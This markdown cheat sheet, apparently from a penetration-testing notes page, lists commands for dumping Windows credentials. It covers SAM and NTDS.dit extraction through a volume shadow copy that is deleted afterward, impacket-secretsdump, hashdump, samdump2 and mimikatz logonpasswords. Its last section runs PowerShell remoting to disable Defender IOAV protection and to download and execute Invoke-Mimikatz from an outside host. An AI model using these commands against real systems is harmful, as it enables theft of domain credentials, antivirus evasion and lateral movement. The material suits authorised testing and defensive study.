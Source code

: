 * View smb enumeration  

```
net view \\dc /all
net use * \\dc\c$
net use
```

* use impacket-secretsdump  
```
impacket-secretsdump -sam sam -system system LOCAL
```

#### Get ntds.dit and system by registry - Active Directory

* vssadmin - Volume shadow copy (Windows Server \ recent versions)
```
vssadmin create shadow /for=c:
```

* copy ntds.dit and system
```
copy <Shadow_Copy_Name>\Windows\NTDS\NTDS.dit C:\Windows\Temp\ntds.dit.save
copy <Shadow_Copy_Name>\Windows\System32\config\SYSTEM C:\Windows\Temp\system.save
```

* delete volume shadow copy
```
vssadmin delete shadows /shadow=<Shadow_Copy_Id>
```

* use impacket-secretsdump  
```
impacket-secretsdump -ntds ntds.dit.save -system system.save LOCAL
```

#### Others
* meterpreter  
```
hashdump
```

* samdump2 (Win 2k/NT/XP/Vista SAM)   
```
samdump2 system sam
```

#### Extracting Hashes in Domain and Pivoting  
* Dump the credentials of all connected users, including cached hashes
```
mimikatz.exe "privilege::debug" "sekurlsa::logonpasswords" "exit"
```
* mimikatz + ScriptBlock
```
$sess = New-PSSession -ComputerName <hostname>
```
```
Invoke-command -ScriptBlock{Set-MpPreference -DisableIOAVProtection $true} -Session $sess
iex (iwr http://<ip>/Invoke-Mimikatz.ps1 -UseBasicParsing)
Invoke-command -ScriptBlock ${function:Invoke-Mimikatz} -Session $sess
```
or  
```
Invoke-command -ScriptBlock{Set-MpPreference -DisableIOAVProtection $true} -Session $sess
Invoke-Command -FilePath .\Invoke-Mimikatz.ps1 -Session $sess
Enter-PSSession $sess
Invoke-Mimikatz
```
